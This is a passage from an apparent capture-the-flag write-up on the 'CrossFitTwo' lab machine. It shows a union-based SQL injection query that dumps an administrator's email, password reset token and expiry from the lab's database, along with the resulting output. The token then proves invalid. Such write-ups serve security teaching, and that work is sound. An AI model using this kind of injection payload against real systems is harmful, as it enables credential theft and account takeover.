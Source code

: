 Sending a password reset request on `http://employees.crossfit.htb/password-reset.php` for the administrator's account with the email `david.palmer@crossfit.htb` and querying it again we can retrieve his token.

[![reset_david](/img/crossfittwo/reset_david.png)](/img/crossfittwo/reset_david.png)

```php
sm1l3z >  union select null, group_concat(email, ' || ', token , ' || ', expires, '\n') from employees.password_reset
david.palmer@crossfit.htb || 1def636649113b1b1267ac53fff31043025d95c85a45af38546580d1952c67e8 || 2021-08-11 20:23:24
```

Passing this token as `token` parameter it turns out to be invalid sadly.

[![pw_reset_token](/img/crossfittwo/pw_reset_token.png)](/img/crossfittwo/pw_reset_token.png)
